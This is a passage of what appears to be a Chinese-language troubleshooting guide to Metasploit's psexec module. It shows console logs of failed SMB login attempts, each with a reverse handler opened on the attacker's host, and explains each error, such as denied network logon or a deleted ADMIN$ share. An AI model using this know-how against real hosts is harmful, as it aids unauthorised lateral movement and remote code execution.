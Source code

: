 ```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_LOGON\_TYPE\_NOT\_GRANTED (Command=115 WordCount=0)
```

### (13) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_LOGON\_TYPE\_NOT\_GRANTED

报错原因：Administrator 管理员的账户和密码都是正确的，但设置了组策略 “拒绝从网络访问此计算机” 选项就会出现以下报错。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445|WORKGROUP1 as user 'administrator'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_TRUSTED\_RELATIONSHIP\_FAILURE (Command=115 WordCount=0)
```

### (14) Rex::Proto::SMB::Exceptions::LoginError Login Failed: The server responded with error: STATUS\_TRUSTED\_RELATIONSHIP\_FAILURE (Command=115 WordCount=0)

报错原因：目标主机可能已脱离域，可能是 smbdomain 选项问题，这个问题暂时没有环境复现。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user 'administrator'...
\[-\] Exploit failed: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_BAD\_NETWORK\_NAME (Command=117 WordCount=0)
```

### (15) Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_BAD\_NETWORK\_NAME

报错原因：指定了一个不存在的共享目录或 ADMIN$ 被删除时就会出现以下报错，因为 psexec 模块默认设置的是 ADMIN$，net share admin$ /delete。

```
msf exploit(windows/smb/psexec) > exploit

\[\*\] Started reverse handler on 192.168.1.120:4444
\[\*\] Connecting to the server...
\[\*\] Authenticating to 192.168.1.108:445 as user '90sec'...
\[-\] Exploit failed \[no-access\]: Rex::Proto::SMB::Exceptions::ErrorCode The server responded with error: STATUS\_ACCESS\_DENIED (Command=117 WordCount=0)
```

